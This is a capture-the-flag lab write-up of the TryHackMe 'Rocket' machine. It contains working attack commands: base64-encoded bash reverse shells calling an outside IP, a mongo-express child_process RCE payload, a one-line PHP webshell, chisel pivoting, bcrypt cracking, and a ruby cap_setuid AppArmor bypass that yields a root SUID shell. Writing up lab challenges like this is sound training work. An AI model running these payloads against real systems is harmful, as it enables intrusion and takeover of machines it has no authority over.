## TL;DR

In this challenge, we starts with `RCE` exploit in the `rocket chat`, and get shell. 
Then, find mongo web interface on different host, and exploit `RCE` to gain access to another host. 

There we can find the hash of the admin of `Bolt CMS`, and gain access to original machine that executes the website, we can grab the user flag.  

The last step is is to exploit `cap_setuid` on `/usr/bin/ruby2.5`, and to bypass apparmor to gain privilege escalation.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b5:20:37:9f:99:b2:4f:23:ba:3a:43:60:b7:45:c8:62 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvaKC59kkNsedfYjBk2qJTrzl0n5caYkdrInvhUiXV1Mbg6FvRnxcAW3p7YDhpUW1l4q77iG+F1Szdvam1xot+Cygi5uJ2WoK0zKjtXjUvNAuRAbwpd4RL1UMK35+tHSycuPE+KXirOyh/PrUf4mq3fqPz+Ou/Fr6rwqx8YqAInr91Gj3hAUO8hN6AVWBYZfF8FvQYWasgNlhK79SdhuKzsEGSOM03KAyqHeo5ujIB+orzvGBqYGOPm3wDy6FQMBrJVDHIGmpbienKM9slThwcX2kS2pk/g5mxq/ekiO/6kQSdQaW2/F3+EEjV620EAJafzzwMJJqhLnm7bsPVeK8N
|   256 12:77:83:03:1f:64:bb:40:5d:bf:2c:48:e2:5a:b5:18 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHBpMdONFmz5LC417afrQcuPjtnNEwH+TQSXXQbIDFNPX2lPpi95fgxCMn44stPZviSan8GKrckCu1iuQ1Z9RZY=
|   256 74:7c:e6:07:78:fc:fd:45:1d:e8:2b:d5:02:66:8e:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIId5VToYxC5fIQqLj4R6b8mkie8RnO5bzU+OE3REsgNt
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29
| http-methods: 
|_  Supported Methods: GET POST HEAD
|_http-generator: Bolt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home | Rocket Entertainment
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `rocket.thm` to my `/etc/hosts`

### Use RCE exploit in rocket chat to get shell

When we visit the root page, we can see this Rocket Entertainment system.


The extension "Wappalyzer" recognize this is `BoltCMS`



I used `gobuster` to find subdomains, and found `chat.rocket.thm`:
```bash
┌──(agonen㉿kali)-[~/thm/Rocket]
└─$ gobuster vhost -u 'http://rocket.thm/' --ad -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --xs 302 -xl 300-400
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://rocket.thm/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Length:            333,372,386,310,336,341,354,355,356,385,311,313,329,347,374,391,304,319,330,358,362,392,315,320,331,334,357,381,382,395,306,328,343,352,359,360,377,390,305,317,326,348,350,370,375,399,323,340,353,361,365,389,308,325,337,345,351,371,376,387,338,344,368,379,393,398,312,318,339,349,366,378,383,388,332,335,397,303,321,342,346,380,300,322,363,369,394,301,302,316,373,314,324,327,364,367,384,396,400,307,309
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
chat.rocket.thm Status: 200 [Size: 224515]
```


So, I added this subdomain to my `/etc/hosts`.
Then, I visited this chat, we can see this page:


I googled an exploit here [https://www.exploit-db.com/exploits/50108](https://www.exploit-db.com/exploits/50108) that gives me `RCE`. I don't know what is the exact version, let's try our luck:
```bash
python3 exploit.py -H http://chat.rocket.thm -u user@rocket.thm -a admin@rocket.thm  --ip 192.168.164.248 --port 1337
```

and set up a listener:
```bash
nc -nvlp 1337
```

After a while, we got our reverse shell:


I pasted the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```


### Find mongo web interface on different host and exploit RCE to move to this host

When I checked for hosts, we can see we are inside network, and there are more hosts:
```bash
rocketchat@c2c82695ecf1:~$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      db f012d09a863c
172.17.0.3      c2c82695ecf1
```

So, I want to uploaded `chisel` for port forwarding, and also `rustscan` for scan the other hosts.

Since there is no curl util on this machine, and also no `wget`, we'll use this function to create curl:
```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```
Just paste it, now you can use `__curl` as curl.



Now, we can use it to scan:
```bash
rocketchat@c2c82695ecf1:~$ /tmp/rustscan -a 172.17.0.4
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/tmp/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 172.17.0.4:8081
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[!] Error No such file or directory (os error 2)
```

We can see port `8081` on `172.17.0.4`. Let's upload `chisel` to set port forwarding to port `8081`.

on local machine:
```bash
chisel server --reverse -p 1234
```

on remote machine, forward `172.17.0.4:8081` to port `8088` on localhost:
```bash
/tmp/chisel client 192.168.164.248:1234 R:8088:172.17.0.4:8081
```


Now, we can check this port:
```bash
┌──(agonen㉿kali)-[~/thm/Rocket]
└─$ curl http://localhost:8088/ -v
* Host localhost:8088 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8088...
* Connected to localhost (::1) port 8088
* using HTTP/1.x
> GET / HTTP/1.1
> Host: localhost:8088
> User-Agent: curl/8.15.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< X-Powered-By: Express
< WWW-Authenticate: Basic realm="Authorization Required"
< Date: Wed, 31 Dec 2025 12:07:28 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Content-Length: 12
< 
* Connection #0 to host localhost left intact
Unauthorized
```

Okay, we got `X-Powered-By: Express`. We also now there is some mongo db on port `27017`, on the host `172.17.0.2`:



Notice that also the `env` tells us that this is mongo web api:
```bash
rocketchat@c2c82695ecf1:~$ env
SHELL=/bin/bash
<REDACTED>
MONGO_WEB_INTERFACE=172.17.0.4:8081
```

So, this is interface for admin interacting with the `mongodb` service.

Okay, I googled and found exploit for this admin interface, here [https://github.com/masahiro331/CVE-2019-10758](https://github.com/masahiro331/CVE-2019-10758).

We need to execute this command to get `RCE`, I already put the payload for reverse shell using `penelope`:
```bash
curl 'http://localhost:8088/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDMgMD4mMSkgJg==|base64 -d|bash")'
```

and we got the reverse shell:



### Find password for admin Bolt CMS login and get reverse shell using webshell upload

Inside `/` I found the folder `backup` which is unusual:



There, on the folder `/backup/db_backup/meteor`, I found the file `bson.hash`:
```bash
bash-5.0# cat bson.hash 
Terrance:$2y$04$cPMSyJolnn5/p0X.B3DMIevZ9M.qiraQw.wY9rgf4DrFp0yLA5DHi
```



Okay, we got some credentials, let's try to crack this hash, using `john`:
```bash
┌──(agonen㉿kali)-[~/thm/Rocket]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1q2w3e4r5        (?)     
1g 0:00:00:09 DONE (2025-12-31 14:19) 0.1001g/s 4151p/s 4151c/s 4151C/s 201995..181194
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



We got the password `1q2w3e4r5`.

Remember we have `BoltCMS`, I googled and found admin login panel at:
```bash
http://rocket.thm/bolt/login
```

I tried to login with the credentials (the username `Terrance` didn't work):
```bash
admin:1q2w3e4r5
```


and we are in!



After some navigation, I found this `config.yaml` file, where I added `php` to allowed content types:
```bash
http://rocket.thm/bolt/file-edit/config?file=/bolt/config.yaml
```


Then, we can upload this `webshell.php`:
```php
<?php system($_GET[0]) ?>
```
Here:
```bash
http://rocket.thm/bolt/filemanager/files
```



Now, we can access the webshell, at:
```bash
http://rocket.thm/files/webshell.php?0=id
```



and paste the penelope payload:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDMgMD4mMSkgJg==|base64 -d|bash
```



Finally, we have the user flag:
```bash
alvin@rocket:/home/alvin$ cat user.txt 
THM{9f87696626a585380d3c1697087e5b5b}
```

### Privilege Escalation to Root using cap_setuid on /usr/bin/ruby2.5 and exploit apparmor profile

I checked for capabilities, we can see we have `setuid` on `/usr/bin/ruby2.5`:
```bash
alvin@rocket:/tmp$ getcap / -r 2>/dev/null
/usr/bin/ruby2.5 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

Also linpeas.sh shows us this.



So, Using [https://gtfobins.github.io/gtfobins/ruby/](https://gtfobins.github.io/gtfobins/ruby/) I tried to get privilege escalation:

I tried to get privileges escalation like shown in GTFobins, but i got permissions denied:
```bash
alvin@rocket:/tmp$ /usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); exec "/bin/sh"'
Traceback (most recent call last):
        1: from -e:1:in `<main>'
-e:1:in `exec': Permission denied - /bin/sh (Errno::EACCES)
```

The reason is because AppArmor is loaded:
```bash
alvin@rocket:/tmp$ aa-status 
apparmor module is loaded.
You do not have enough privilege to read the profile set.
```



Okay, let's read the profile for `ruby2.5`, located at `/etc/apparmor.d/`



```bash
alvin@rocket:/tmp$ cat /etc/apparmor.d/usr.bin.ruby2.5 
# Last Modified: Mon Jun 14 23:01:44 2021
#include <tunables/global>

/usr/bin/ruby2.5 {
  #include <abstractions/base>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /etc/passwd r,
  /bin/cat mrix,
  /bin/cp mrix,
  /bin/ls mrix,
  /usr/bin/whoami mrix,
  /tmp/.X[0-9]*-lock rw,
  /lib/x86_64-linux-gnu/ld-*.so mr,
  /usr/bin/ruby2.5 mr,
  /usr/share/rubygems-integration/all/specifications/ r,
  /usr/share/rubygems-integration/all/specifications/did_you_mean-1.2.0.gemspec r,
  /{usr/,}lib{,32,64}/** mr,

}
```

We can use copy, and also read and write all files from the format `/tmp/.X[0-9]*-lock`.

What if we'll create our version of `/bin/bash`, with SUID bit, and then copy this to another file on `/tmp`? 
We might be able to copy it with the SUID bit, and then we'll get bash with SUID bit, and ownership of `root`!

So, Let's first create our copy:
```bash
alvin@rocket:/tmp$ cp /bin/bash /tmp/.X770-lock
alvin@rocket:/tmp$ chmod +s /tmp/.X770-lock
```

And now, the command we want to execute, the flag `--preserve=mode` preserve the mode, and particularly, the SUID bit:
```bash
/bin/cp --preserve=mode /tmp/.X770-lock /tmp/.X1337-lock
```

Full command will be:
```rb
/usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); system("/bin/cp --preserve=mode /tmp/.X770-lock /tmp/.X1337-lock")'
```

now, we can get the root shell:
```bash
alvin@rocket:/tmp$ /usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); system("/bin/cp --preserve=mode /tmp/.X770-lock /tmp/.X1337-lock")'
alvin@rocket:/tmp$ ls -la /tmp/.X1337-lock 
-rwsr-sr-x 1 root alvin 1113504 Dec 31 15:40 /tmp/.X1337-lock
alvin@rocket:/tmp$ /tmp/.X1337-lock -p
.X1337-lock-4.4# id
uid=1000(alvin) gid=1000(alvin) euid=0(root) groups=1000(alvin)
```


Finally, let's grab the root flag:
```bash
.X1337-lock-4.4# cat /root/root.txt 


```